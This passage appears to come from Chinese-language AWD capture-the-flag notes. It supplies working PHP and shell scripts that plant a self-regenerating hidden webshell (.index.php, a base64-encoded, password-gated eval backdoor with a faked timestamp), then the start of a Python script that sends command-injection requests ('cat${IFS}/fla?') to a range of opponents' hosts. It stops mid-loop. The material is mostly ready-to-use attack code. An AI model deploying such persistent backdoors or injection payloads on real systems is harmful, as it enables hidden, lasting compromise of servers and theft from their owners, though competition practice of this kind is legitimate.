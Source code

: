 php版生成不死马（记得浏览器访问该文件激活）

```php
<?php
 ignore_user_abort(true);
 set_time_limit(0);
 unlink(__FILE__); 
 $file = '.index.php';
 $code = base64_decode('PD9waHAgaWYobWQ1KCRfR0VUW3hdKT09PSc4NDM5YWI3ODZkOTcxMjQ3OGU5OGM2YWZlOGQ2MmM5OCcpe2V2YWwoJF9QT1NUW2FdKTt9Pz4=');
 while(true) {
     if(md5(file_get_contents($file))!=md5($code)) {
         file_put_contents($file, $code);
     }
     usleep(5000);
 }
?>
```

shell版生成不死马

```shell
while true;
do echo '<?php if(md5($_POST[pass])=="8439ab786d9712478e98c6afe8d62c98"){@eval($_POST[a]);} ?>' >.index.php;
touch -m -d "2020-12-17 09:30:01" .index.php;
chmod +x .index.php;
sleep 5;
done;
```

需要执行命令`sh test.sh`来激活。

#### 3. 批量getflag

```python
#!/usr/bin/env python

from __future__ import print_function
import sys
import json
import time
import requests
import re
import urllib3
try:
    from urllib.parse import urlencode
except ImportError:
    from urllib import urlencode
try:
    import httplib
except ImportError:
    import http.client as httplib

server_host = '192.168.1.2'   # 改成flag提交机的IP
server_port = 80            # 改成flag提交机的端口
team08_token = 'abcdefghijklmnopqrstuvwxyz123456'           # 队伍token写在这里

if __name__ == '__main__':    
    #### 构造拿flag的url #######（当时比赛队伍的ip是192.168.201-212）
    url_list = ['http://192.168.1.2%02d/manager?command=cat${IFS}/fla?' % i for i in range(1, 13)]
    print(url_list)
    # 这一块区域是构造url列表
    
    #######################################
    
    while True:
```
